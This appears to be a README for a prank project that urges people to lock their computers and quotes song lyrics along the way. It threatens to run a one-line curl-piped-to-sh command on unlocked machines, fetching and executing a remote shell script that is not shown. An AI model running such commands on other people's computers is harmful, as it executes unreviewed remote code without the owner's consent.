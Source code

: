 # This is PSA

```
It's a moment when I show up, got 'em sayin', "Wow" (Wow, wow)
```

It's very simple to lock your computer before getting up and going somewhere else without your computer. Unfortunately, not many people do.

On Macs, it's as simple as `cmd + ctrl + q`.
On Windows, it's as simple as `win + L`

This is my declaration.

```
Needless to say, I keep it in git
Security boo boo, nevertheless (yeah)
Callin' a shell script, baby, you'll be hacked (hacked)
Check your background, baby, you've been hacked (hacked)
```

I will run this

```
sh -c "$(curl -fsSL https://raw.githubusercontent.com/chrisarevir/malone-protocol/master/protocol.sh)"
```

if you leave your computer unlocked and walk away.

While we may be getting more secure to cyber-based espionage, or external even external hackers, there's nothing that beats a little social engineering. Letting the wrong person get physical access to your computer can be harmful, as this could very easily have turned into a real virus.

```
http://bit.ly/g-wagon
```
